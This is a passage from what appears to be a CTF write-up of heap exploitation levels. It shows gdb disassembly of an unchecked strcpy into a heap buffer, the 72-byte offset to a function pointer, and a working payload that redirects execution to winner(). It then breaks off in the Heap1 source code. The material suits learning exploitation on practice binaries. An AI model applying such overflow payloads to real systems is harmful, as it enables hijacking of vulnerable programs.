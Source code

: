 ```
   0x080484eb <+95>:	mov    DWORD PTR [esp+0x4],edx
   0x080484ef <+99>:	mov    DWORD PTR [esp],eax
   0x080484f2 <+102>:	call   0x8048368 <strcpy@plt>
   0x080484f7 <+107>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484fb <+111>:	mov    eax,DWORD PTR [eax]
   0x080484fd <+113>:	call   eax
```

```
gdb-peda$ p winner
$2 = {void (void)} 0x8048464 <winner>
```

Address of fp->fp `0x804a050`, address of d->name `0x804a008`.
`0x804a050-0x804a008=0x48=72`

Lets verify it:

```
gdb-peda$ set arg $(python -c "print 'A'*72+'BBBB'")
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

Exploit:

```
gdb-peda$ set arg $(python -c "print 'A'*72+'\x64\x84\x04\x08'")
gdb-peda$ run
gdb-peda$ 
level passed
[Inferior 1 (process 24288) exited with code 015]

```


##Heap1

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

  

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);
```